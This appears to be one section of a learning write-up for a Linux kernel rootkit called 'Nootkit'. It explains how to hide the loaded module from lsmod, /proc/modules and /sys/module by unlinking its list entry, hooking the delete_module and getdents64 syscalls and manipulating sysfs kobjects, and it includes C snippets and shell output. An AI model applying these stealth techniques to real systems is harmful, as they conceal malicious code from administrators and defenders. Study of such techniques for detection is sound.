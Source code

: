 # Nootkit Section 6 - Hiding The Module Itself

This isn't completely foreign ground for me - I've seen in the past `THIS_MODULE` pointing to a linked
list which is used when listing modules. I would guess some code responsible for iterating this would be
in the sysfs implementation of `/sys/module`, which as we saw in [section 1](section-1.md) is the interface
used by `lsmod`. I liked the explaination found [here](https://www.win.tue.nl/~aeb/linux/lk/lk-13.html) of
the whole sysfs krazam.

It seems the `/sys/modules` kset itself gets created here:

```C
/*
 * param_sysfs_init - wrapper for built-in params support
 */
static int __init param_sysfs_init(void)
{
    module_kset = kset_create_and_add("module", &module_uevent_ops, NULL);
    if (!module_kset) {
        printk(KERN_WARNING "%s (%d): error creating kset\n",
            __FILE__, __LINE__);
        return -ENOMEM;
    }
    module_sysfs_initialized = 1;

    version_sysfs_builtin();
    param_sysfs_builtin();

    return 0;
}
```

And the addition of any inserted module to that kset happens in `load_module`, which calls `mod_sysfs_setup`,
which calls `mod_sysfs_init`, which does this:

```C
kobj = kset_find_obj(module_kset, mod->name);
if (kobj) {
    pr_err("%s: module is already loaded\n", mod->name);
    kobject_put(kobj);
    err = -EINVAL;
    goto out;
}

// ...

err = kobject_init_and_add(&mod->mkobj.kobj, &module_ktype, NULL,
    "%s", mod->name);
```

The module list referred to by `THIS_MODULE` however seems to be at a lower level than the kobject - also at `load_module`, a list member
is added by `add_unformed_module` to a static `struct list_head` named `modules` in `kernel/module.c`.
This list is also iterated by the syscall `remove_module` to find a module before unloading it.
This will be a hurdle as we'll have to make sure the module is removable - maybe I'll hook the syscall itself
to handle the case.

However, how does the kset which is `/sys/modules` related? Why would removing a module from the `modules`
list also remove it from the `kset`?

It seems that the procfs `/proc/modules` is in fact linked to that list:

```C
/* Called by the /proc file system to return a list of modules. */
static void *m_start(struct seq_file *m, loff_t *pos)
{
    mutex_lock(&module_mutex);
    return seq_list_start(&modules, *pos);
}
```

I took a secondary look at the strace output for `lsmod` - and it seems indeed that before iterating `/sys/module`,
`lsmod` reads `/proc/modules`. Now, my eyes are open. I have modified the section 1 document to contain this information.

So to completely hide our module, would we have to also modify data related to sysfs (maybe removing the relevant
kobject)? We'll see.

Now to work.

## Hiding A Module From `/proc/modules`

`struct module`s contain a pointer to their list entry, so it's easy as pie. See [src/hide/module.c](../src/hide/module.c).

And just from this, we are unseen in `lsmod`:

```sh
lsmod | grep nootkit
>>> 
```

However, as expected we can't remove the module:

```sh
rmmod nootkit
>>> rmmod: ERROR: ../libkmod/libkmod-module.c:799 kmod_module_remove_module() could not remove 'nootkit': No such file or directory
>>> rmmod: ERROR: could not remove module nootkit: No such file or directory

rmmod blabla
>>> rmmod: ERROR: Module blabla is not currently loaded
```

Which yields a different error than other modules which don't exist. My suspicions were correct, and we are still visible
in `/sys/module`:

```sh
ls /sys/module/nootkit/
>>> coresize  initsize   notes   sections    taint
>>> holders   initstate  refcnt  srcversion  uevent
```

Adding a syscall hook to `delete_module` proved interesting:
We can't call the original delete_module from within this hook; upon returning, the hook's function memory will
have been deallocated. So instead, the first time the module is `rmmod`ed, the module hiding is canceled,
and the hook is unset.
Upon a second `rmmod` the module will be removed regularly.

See the hook implemetnation at [src/arch/x86_64/hide/module_sys.c](../src/arch/x86_64/hide/module_sys.c).

## Hiding A Module From `/sys/module`

This can be done with our `getdents64` hook, by simply hiding the path `/sys/module/nootkit`. `rmmod`ing will still
work the same way, we'll just have to add the `-f` flag so that it won't fail when it doesn't find the name `nootkit`
in `/sys/module`.

I'm not sure this was the intent of the excercise though, so I'll go ahead and 

As we've seen above, to create a sysfs entry a kobject needs to be created and added to the relevant kset.
Consequently, to remove an entry it makes sense you must only remove the kobject from the kset.
In this [neat document](https://www.kernel.org/doc/html/v5.7/core-api/kobject.html#kobject-removal) we can see
that `kobject_del` only drops the reference to the parent kobject (in our case the kset), without destroying
the kobject. Wonderful, because it's good to have the ability to unhide our module in case it's needed.

However there is much behaviour that we need to replicate - subdirectories and files are created additionaly in `mod_sysfs_setup`.
To truly hide and unhide the module, we'd have to replicate `mod_sysfs_setup`'s behaviour; that proved quite hard, as we can't
just call it - both because we don't have all the necessary data for it's arguments, and because it performs actions
which are invalid at the time we would be calling them (e.g. initializing the modules kobject).

After a bit of time of of wrestling and trying to imitate the sysfs setup without breaking things, I decided to just stick
to the basic instruction and *not* restore the entire `/sys/module` directory - but only the parts which are required for
`delete_module` to run without crashing.

Here is what the working routing I came up with looks like - I left the code I tried to truly replicate the untouched module
directory in the comment block, as a monolith of my effort:

```C
void hide_disable_sys_module_this(void)
{
    if (!hide_sys_module_enabled)
        return;

    if (kobject_add(&THIS_MODULE->mkobj.kobj, NULL, THIS_MODULE->name))
        goto error;

    THIS_MODULE->holders_dir = kobject_create_and_add("holders",&THIS_MODULE->mkobj.kobj);
    if (sysfs_create_group(&THIS_MODULE->mkobj.kobj, &THIS_MODULE->sect_attrs->grp))
        goto error;

    kobject_put(&THIS_MODULE->mkobj.kobj);
    hide_sys_module_enabled = false;
    return;

error:
    printk(KERN_ERR "nootkit: Failed to recreate kobject and children");

    /*
     * THIS_MODULE->mkobj.kobj = *kobject_get(&THIS_MODULE->mkobj.kobj);
     * kobject_init_and_add(&THIS_MODULE->mkobj.kobj, THIS_MODULE->mkobj.kobj.ktype, NULL, "%s", THIS_MODULE->name);
     * ksyms__sysfs_create_dir_ns(&THIS_MODULE->mkobj.kobj, ksyms__kobject_namespace(&THIS_MODULE->mkobj.kobj));
     * 
     * THIS_MODULE->mkobj.drivers_dir = kobject_create_and_add("drivers", &THIS_MODULE->mkobj.kobj);

     * for (i = 0; THIS_MODULE->modinfo_attrs[i].attr.name != NULL; i++) {
     *   if (sysfs_create_file(&THIS_MODULE->mkobj.kobj, &THIS_MODULE->modinfo_attrs[i].attr) != 0)
     *     break;
     * }
     * 
     * THIS_MODULE->notes_attrs->dir = kobject_create_and_add("notes", &THIS_MODULE->mkobj.kobj);
     * 
     * for (i = 0; i < THIS_MODULE->notes_attrs->notes; ++i)
     *      if (sysfs_create_bin_file(THIS_MODULE->notes_attrs->dir,
     *          &THIS_MODULE->notes_attrs->attrs[i]))
     * 
     * kobject_put(THIS_MODULE->notes_attrs->dir);
     * kobject_put(THIS_MODULE->holders_dir);
     * kobject_put(THIS_MODULE->mkobj.drivers_dir);
     * 
     */
}
```

See [src/hide/module.c](../src/hide/module.c) for the complete implementation.
